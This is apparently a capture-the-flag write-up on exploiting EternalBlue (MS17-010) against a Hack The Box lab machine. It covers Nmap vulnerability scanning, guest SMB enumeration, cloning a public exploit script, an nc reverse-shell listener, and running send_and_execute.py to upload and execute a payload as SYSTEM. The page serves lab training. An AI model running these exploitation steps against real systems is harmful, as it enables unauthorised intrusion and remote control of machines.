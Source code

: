# EternalBlue

## EternalBlue

MS-17-010, also known as ETERNALBLUE, is an unauthenticated remote code execution vulnerability in Windows SMB that was made famous by the Shadow Brokers' publication and use in May 2017 WannaCry worm.

Metasploit's MS17-010 exploits are far more stable than their Python script counterparts. If you're doing this in the real world, Metasploit is a great tool to use.

## Enumeration

We can use Nmap **vuln nse scripts** to find vulnerable versions of SMB:

```text
❯ sudo nmap -p 445 -script vuln -oA scans/nmap-smbvulns 10.10.10.40
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-05 12:10 EDT
Nmap scan report for 10.10.10.40
Host is up (0.080s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 27.02 seconds
```

## Exploitation

### Manually - NO Metasploit

**SMB Authentication:**

**smbclient** doesn't error out:

```text
❯ smbclient -N -L //10.10.10.40/Share

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk
	Users           Disk
```

**smbmap** needs a **user** or a **password** string to authenticate for some reason:

```text
❯ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445	Name: 10.10.10.40
❯ smbmap -u 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
❯ smbmap -p 'anything' -H 10.10.10.40
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                     
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY	
```

#### Exploit

Worawit has the greatest MS17-010 Python scripts I've seen. These are effective, but they are a little difficult to use. That project was forked by helviojunior, who included a single send and execute.py file, which is quite useful. It's just an updated version of the original zzz exploit.py script, with the addition of the ability to upload a file and run it as system.

```text
git clone https://github.com/helviojunior/MS17-010
```

**Credentials Update**

Just like with `smbmap`, when we try to run this with username as an empty string, it won’t auth. However, if I just add any string into the username, it will then work.

Modify the exploit, add a any string to the username variable:

![send\_and\_execute.py USERNAME variable](../.gitbook/assets/image.png)

### Exploit manually 

Set a listener with **nc**:

```text
sudo rlwrap nc -lvnp 443
```

Then execute the exploit with:

```text
~/htb/blue/MS17-010 master* 26s
impacket-venv ❯ python send_and_execute.py 10.10.10.40 rev.exe
```







